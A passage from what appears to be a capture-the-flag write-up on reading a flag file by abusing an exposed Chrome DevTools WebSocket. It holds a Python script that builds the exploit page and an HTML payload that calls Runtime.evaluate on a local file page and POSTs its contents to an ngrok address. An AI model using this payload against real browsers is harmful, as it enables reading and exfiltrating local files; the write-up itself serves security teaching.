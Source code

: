 ```python

    expl = open("exploit.tpl", "r").read().replace("PORTHERE", open("port.txt", "r").read()).replace("URLHERE", wsUrl)
    with open("exploit.html", "w") as f:
        f.write(expl)
```

### Getting the Flag

After we have done all that, the second-stage payload is opened. The `Runtime.evaluate` method is used to execute JavaScript on the `file:///tmp/flag.txt` page, and exfiltrate its contents.

```markup
<body>
    <script>
        window.ws = new WebSocket('ws://127.0.0.1:PORTHERE/devtools/page/URLHERE')
        ws.onerror = (e => { console.log(e) })
        ws.onmessage = (e => {
            console.log(e.data);
        })

        ws.onopen = () => {
            ws.send(JSON.stringify({
                id: 1,
                method: "Runtime.evaluate",
                params: {
                    expression: "fetch('http://986d-42-60-68-174.ngrok.io/exfil', {method:'POST', body:document.body.innerHTML})"
                }
            }))

        }
    </script>
</body>
```

